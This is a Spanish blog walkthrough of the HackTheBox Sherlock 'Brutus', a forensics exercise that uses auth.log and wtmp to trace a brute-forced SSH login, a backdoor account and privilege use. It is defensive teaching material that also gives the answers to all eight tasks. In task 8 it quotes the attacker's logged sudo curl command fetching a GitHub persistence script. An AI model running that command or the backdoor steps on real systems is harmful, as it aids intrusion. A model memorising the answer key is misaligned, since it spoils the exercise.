 ```yaml
---
title: "Sherlock - Brutus - Español"
summary: "Sherlock de HackTheBox sobre inicios de sesión no autorizados en un servidor Confluence.
 Se proporcionan los archivos auth.log y wtmp para la investigación."
date: "Jan 01 2025"
draft: false
tags:
- HackTheBox
- Sherlock
- Very easy
- Tutorial
- Español
---
```



<SherlockBeginningTable  lang={LANG_ES} 
  data={[
    { content: `En este Sherlock de dificultad muy fácil, te familiarizarás con los registros auth.log y wtmp de Unix. 
    Exploraremos un escenario en el que un servidor de Confluence fue atacado por fuerza bruta a través de su servicio SSH. 
    Después de obtener acceso al servidor, el atacante realizó actividades adicionales, las cuales podemos rastrear utilizando auth.log. 
    Aunque auth.log se utiliza principalmente para el análisis de fuerza bruta, profundizaremos en todo el potencial de este artefacto en nuestra investigación, 
    incluyendo aspectos de escalada de privilegios, persistencia e incluso algo de visibilidad en la ejecución de comandos.` },
    { content: "auth.log, wtmp" },
  ]} />

<div align="center">
  <img width="500px" src="/sherlocks/brutus_images/Sherlock_logo.png" />
</div> 

## Tasks

---

<SherlockTask lang={LANG_ES} 
    task_number="1" 
    task_content="Analizando el auth.log, ¿puedes identificar la dirección IP utilizada por el atacante para llevar a cabo un ataque de fuerza bruta?" 
    hint_content="Buscar palabras clave asociadas con intentos de fuerza bruta puede ayudar a identificar ataques potenciales." 
    answer="65.2.161.68"/>

- Podemos buscar por las palabras clave `Invalid user` para averiguar la IP del atacante con cualquiera de estos comandos: 

<CodeBlock code={"grep \"Invalid user\" auth.log"}/>

<CodeBlock code={"cat auth.log | grep \"Invalid user\""}/>

- Los logs tienen este formato:

<CodeBlock code={"Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380"}/>

- Hay muchos intentos fallidos de inicio de sesión desde la IP 65.2.161.68 con cuentas de usuario que sugieren tener privilegios elevados (`admin`, `server_adm`, `svc_account` y `root`). Esa es la IP que buscamos.

---

<SherlockTask lang={LANG_ES} 
    task_number="2" 
    task_content="El ataque de fuerza bruta fue exitoso y el atacante ganó acceso a una cuenta en el servidor. ¿Cuál es el nombre de esa cuenta?" 
    hint_content="Busca por palabras clave que indiquen un intento de inicio de sesión válido para identificar la cuenta comprometida." 
    answer="root"/>

- Echando un vistazo al archivo `auth.log` se puede ver que se ha ganado acceso con el usuario `root` desde la IP 65.2.161.68, que es la IP del atacante como hemos dicho anteriormente.

<CodeBlock code={"Mar 6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2"}/>

- Aunque podemos filtar por las palabras clave `Accepted password`:

<CodeBlock code={"cat auth.log | grep \"Accepted password\""}/>

---

<SherlockTask lang={LANG_ES} 
    task_number="3" 
    task_content="¿Puedes identificar el timestamp correspondiente a cuando el atacante inició sesión manualmente en el servidor para llevar a cabo sus objetivos?" 
    hint_content="Es importante señalar que el primer inicio de sesión exitoso por parte del atacante fue el resultado de un intento de fuerza bruta automatizado, 
    y la sesión se cerró dentro del mismo segundo en que se estableció. Después de obtener las credenciales válidas, el atacante inició sesión manualmente, y 
    necesitamos identificar ese inicio de sesión. Utiliza el artefacto wtmp para ver el tiempo de inicio de sesión de la sesión activa y correlacionarlo con auth.log." 
    answer="2024-03-06 06:32:45"/>

- Debido a que en `auth.log` el timestamp tiene este formato `Month Day HH:mm:SS` y el formato que se pide es `YYYY-MM-DD HH:mm:SS` tenemos que buscar en el archivo `wtmp`.
- Con este comando se ven todos inicios de sesion en ese archivo:

<CodeBlock code={"utmpdump wtmp"}/>
    
- Pero podemos filtrar por el nombre de usuario con el que el atacante ganó acceso, que en este caso es lo que nos interesa:

<CodeBlock code={"utmpdump wtmp | grep 'root'"}/>

<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_3.png"/>

- Se puede apreciar que en la última línea se encuentra el inicio de sesión de la IP 65.2.161.68 con un formato similar a `YYYY-MM-DD HH:mm:SS`. Ahí está nuestra respuesta.

---

<SherlockTask lang={LANG_ES} 
    task_number="4" 
    task_content="Los inicio de sesión SSH se rastrean y se les asigna un número al iniciar sesión. ¿Cuál es el número de sesión asignado a la sesión del atacante para la cuenta de usuario de la pregunta 2?" 
    hint_content="Se asigna un número de sesión de forma automática inmediatamente después de que la contraseña sea aceptada." 
    answer="37"/>

- Teniendo en cuenta el timestamp anterior podemos buscar en `auth.log` cerca de esa hora.
- Buscamos por esa hora y esos minutos (aunque también podríamos buscar por el usuario `root`):

<CodeBlock code={"cat auth.log | grep '06:32'"}/>

<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_4.png"/>

- Vemos que un segundo antes (06:32:44) se le asigna el número 37 a la sesión del usuario `root`.

---

<SherlockTask lang={LANG_ES} 
    task_number="5" 
    task_content="El atacante agregó un nuevo usuario como parte de su estrategia de persistencia en el servidor y le otorgó a esta nueva cuenta de usuario privilegios elevados. ¿Cuál es el nombre de esta cuenta?" 
    hint_content="Auth.log también rastrea cambios relacionados con usuarios y grupos en el servidor. Busca palabras clave que indiquen adiciones de usuarios o asignaciones de privilegios." 
    answer="cyberjunkie"/>

- Revisando el archivo `auth.log` nos damos cuenta que, tras ganar acceso, el atacante crea un nuevo usuario con el nombre `cyberjunkie`, a través del comando `useradd`, con la finalidad de mantener acceso persistente en el sistema (crear una puerta trasera):
    
<CodeBlock code={"Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1"}/>

---

<SherlockTask lang={LANG_ES} 
    task_number="6" 
    task_content="¿Cuál es el ID de la sub-técnica de MITRE ATT&CK utilizado para la persistencia al crear una nueva cuenta?" 
    hint_content="Si has encontrado la respuesta a la pregunta 5, consulta la `MITRE ATT&CK enterprise matrix` para determinar el ID de sub-técnica bajo la táctica de persistencia." 
    answer="T1136.001"/>

- Para ello vamos a la URL https://attack.mitre.org y buscamos en **Persistence > Create Account > Local Account**.

---

<SherlockTask lang={LANG_ES} 
    task_number="7" 
    task_content="¿A qué hora terminó la primera sesión SSH del atacante según auth.log?" 
    answer="2024-03-06 06:37:24"/>

- Conociendo el número de sesión SSH, podemos filtrar por él de esta forma:
    
<CodeBlock code={"cat auth.log | grep 'session 37'"}/>
    
<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_7.png"/>

- La segunda línea indica la hora en que se cerró la sesión, con el estado `Removed session 37`.

---

<SherlockTask lang={LANG_ES} 
    task_number="8" 
    task_content="El atacante inició sesión en la cuenta que creó como puerta trasera y utilizó sus privilegios más altos para descargar un script. ¿Cuál es el comando completo ejecutado usando sudo?" 
    hint_content='Aunque auth.log no se utiliza típicamente para rastrear ejecuciones de comandos como auditd, los comandos ejecutados con sudo se registran en auth.log, ya que el sistema necesita autenticar los privilegios de la cuenta para otorgar permisos de nivel root para ese comando. Busca la palabra clave "COMMAND" para encontrar los comandos ejecutados usando sudo.'
    answer="/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh"/>

- El sistema necesita autenticar la cuenta para dar permisos de administrador a los comandos ejecutados con `sudo`, con lo cual quedarían registrados en `auth.log`, tal y como dice la pista. Podemos filtrar por:
    
<CodeBlock code={"cath auth.log | grep \"COMMAND\""}/>
 
<SherlockBodyImage src="/sherlocks/brutus_images/Brutus_task_8.png"/>   

- Una de las líneas nos muestra que se ejecutó el comando `curl` y la URL del script que se descargó el atacante.

---

<SherlockFinalContent lang={LANG_ES}/>
